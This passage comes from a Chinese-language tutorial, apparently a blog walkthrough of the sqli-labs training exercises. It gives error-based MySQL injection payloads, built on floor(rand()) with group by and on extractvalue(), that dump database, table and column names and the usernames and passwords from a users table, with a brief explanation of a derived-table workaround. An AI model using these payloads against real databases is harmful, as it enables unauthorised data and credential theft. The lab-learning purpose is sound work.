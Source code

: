 ```cobol
数据库名
1' and (select 1 from(select count(*),concat((select database()),floor(rand(0)*2))x from information_schema.tables group by x)a)-- +
表名
1' and (select 1 from(select count(*),concat((select group_concat(table_name)from information_schema.tables where table_schema=database()),floor(rand(0)*2))x from information_schema.tables group by x)a)-- +
字段名
1' and (select 1 from(select count(*),concat((select group_concat(column_name)from information_schema.columns where table_name='users' and table_schema=database()),floor(rand(0)*2))x from information_schema.columns group by x)a)-- +

爆破值
1' and (select count(*),concat((select group_concat(username)from users),floor(rand(0)*2))x from information_schema.columns group by x limit 0,2)-- +
```

从这里看出 group by 的使用条件要很多 比如 需要至少3个数据等

正常报错注入使用前两个即可

### extractvalue()

```cobol
数据库
1' and extractvalue(1,concat(0x7e,(select database())))-- +
表名
1' and extractvalue(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema='security')))-- +
字段
1' and extractvalue(1,concat(0x7e,(select group_concat(column_name)from information_schema.columns where table_name='users' and table_schema=database())))-- +
值
1' and extractvalue(1,concat(0x7e,(select * from(select group_concat(id,username,password)from users)a)))-- +
```

#### 这里注意



<img src="https://i-blog.csdnimg.cn/blog_migrate/88373a0698fd8f3c98e86fa2b9d24119.png" alt="" style="max-height:130px; box-sizing:content-box;" />


在指定users表的时候 会报错 因为mysql不允许查询和更新语句在一起的时候 使用同一个表

所以这里通过



```cobol
(select * from(select group_concat(id,username,password)from users)a)
```

生成了一个新的a 虚拟表来查询 这样就不会报错了

## Less-18  UA注入
